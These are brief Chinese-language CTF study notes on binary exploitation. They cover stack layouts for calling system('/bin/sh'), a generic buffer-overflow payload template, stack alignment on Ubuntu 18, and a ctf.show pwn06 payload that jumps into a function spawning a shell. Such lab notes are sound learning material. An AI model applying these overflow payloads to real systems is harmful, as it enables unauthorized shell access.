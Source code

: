 ![Alt text](imgs/pwn02.png)

system函数执行:

    system_address + "return地址,随意填可为0x1" + bin_sh_addr
    system地址|假返回地址|执行参数(示例为bin/sh的地址)

shellcode填写函数时，需要加返回地址:

    0x88*'a'+p32(0xdeadbeef) + 函数地址 + 函数返回地址 + 参数1 + 参数2 + 参数3 ...

Ubuntu18运行机制与前面版本的不同，在调用system的时候需要进行栈对齐(如多加个retn)

[栈未对齐引发Crash](http://blog.eonew.cn/archives/958)

[栈未对齐引发Crash1](https://www.cnblogs.com/Rookle/p/12871878.html)

__基本输入输出FD__

fd的类型为int，值为0、1、2,分别代表标准输入、标准输出、标准错误输出。


[LINUX SYSTEM CALL TABLE FOR X86 64](https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/)
### 栈对齐
<span id="stack_align"></span>
见ctf.show - pwn06

payload = b"a" * 0x14 + p64(0x40057B)

```
.text:0000000000400577                 public getFlag
.text:0000000000400577 getFlag         proc near
.text:0000000000400577 ; __unwind {
.text:0000000000400577                 push    rbp
.text:0000000000400578                 mov     rbp, rsp
.text:000000000040057B                 lea     rdi, command    ; "/bin/sh"     --- 从这里执行少push一步， 免用retn
.text:0000000000400582                 mov     eax, 0
.text:0000000000400587                 call    _system
.text:000000000040058C                 nop
.text:000000000040058D                 pop     rbp
.text:000000000040058E                 retn
.text:000000000040058E ; } // starts at 400577
```